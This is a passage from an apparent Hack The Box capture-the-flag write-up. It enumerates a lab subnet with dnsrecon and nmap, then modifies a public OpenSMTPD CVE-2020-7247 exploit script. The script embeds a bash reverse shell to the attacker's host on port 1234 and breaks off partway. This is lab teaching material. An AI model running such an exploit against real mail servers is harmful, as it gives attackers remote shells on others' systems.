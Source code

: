 And we got another Ip range

first I performed a reverse lookup on this subnet with dnsrecon

```bash
darkrider@sunshine:~/hackthebox/boxes/tentacles$ dnsrecon -r 10.241.251.0/24 -n 10.10.10.224 -d anything
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 10.241.251.0 to 10.241.251.255
[+] PTR srvpod01.realcorp.htb 10.241.251.113
[+] 1 Records Found


```

this gave us 1 up ip and now enumerating that ip with nmap

```bash
$ proxychains nmap --top-ports 6 10.241.251.113

```

We got 10.241.251.113 is up and have smtp port 25 open

## SMTP exploitation

It is running OpenSMTPD, I searched for this online and found some exploits (CVE-2020-7247)
https://github.com/FiroSolutions/cve-2020-7247-exploit

I modified this exploit litlle bit

```python

import socket, time
import sys

if len(sys.argv) < 2:
    print("\n\nUsage: python3 exploit.py machine-ip")
    exit()
HOST = sys.argv[1]
PORT = 25              # The same port as used by the server
s = None

writewhat = 'bash -c "bash -i >& /dev/tcp/10.10.16.3/1234 0>&1"' # hard coded rev shell
payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n
#c\r\n
#d\r\n
"""+writewhat.encode()+b"""
.
"""

for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
```